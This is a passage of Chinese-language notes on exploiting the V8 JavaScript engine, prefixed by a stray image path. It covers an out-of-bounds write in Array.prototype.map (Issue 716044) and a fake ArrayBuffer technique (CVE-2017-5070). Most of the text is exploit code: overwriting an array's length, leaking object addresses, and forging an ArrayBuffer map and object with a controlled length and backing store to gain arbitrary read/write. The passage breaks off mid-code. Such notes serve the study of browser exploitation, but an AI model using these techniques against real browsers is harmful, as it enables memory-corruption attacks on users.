 ```
```

#### 2.1、特殊--Array.prototype.map非线性溢出

eg. Issue 716044: V8: OOB write in Array.prototype.map builtin

##### 介绍

非线性原因：array中存在hole(为初始化内容)，而Array.prototype.map在索引时会跳过hole，所以我们可以通过为指定位置初始化来实现非线性写入。

##### arbitrary read/write：

```
array[8] = 6;
// trigger the oob write to b[8], overwrite the oobArray's length
var b = array.map(function(x) { return maxSize; });

通过nap修改Array's length使其溢出，剩下的同数组溢出。
```

### 3、fake arraybuffer

eg. CVE-2017-5070

##### 前置条件

- 一般适用于只具有任意读的情况：

```
var ab = new ArrayBuffer(0x20);

用addrOf原语泄露出ab.__proto__的地址，-0x70就可以得到ab_constructor_addr的地址。

var abMapProtoAddr = AddrOfObj(ab.__proto__);
var abMapConstructAddr = abMapProtoAddr - 0x70;


var fakeABMap = [
    i2f(0xdaba0000daba0000), // map, whatever;
    i2f(0x000900c03e000008),
    i2f(0x00000000082003ff),
    1.1, // prototype
    2.2, // constructor
    0,
]
fakeABMap[3] = i2f(abMapProtoAddr);
fakeABMap[4] = i2f(abMapConstructAddr);


-------------------------------//get the fake ArrayBuffer Map elements' addr----------------------------------------
var fakeABMapAddr = AddrOfObj(fakeABMap) + 0x30; // elements addr of fakeABMap
print("[+] fake ArrayBuffer Map addr: 0x"+hex(fakeABMapAddr));


-------------------------------//use the fakeABMapAddr to build fakeAB;-------------------------------

var fakeAB = [
    1.1, // ArrayBuffer Map;
    2.2,  // properties (whatever);
    3.3,  // elements (whatever);
    i2f(0x40000000000), // length 0x400
    4.4, // backing store;
    i2f(0x0000000000000004), // copy form ab stucture
    i2f(0)
```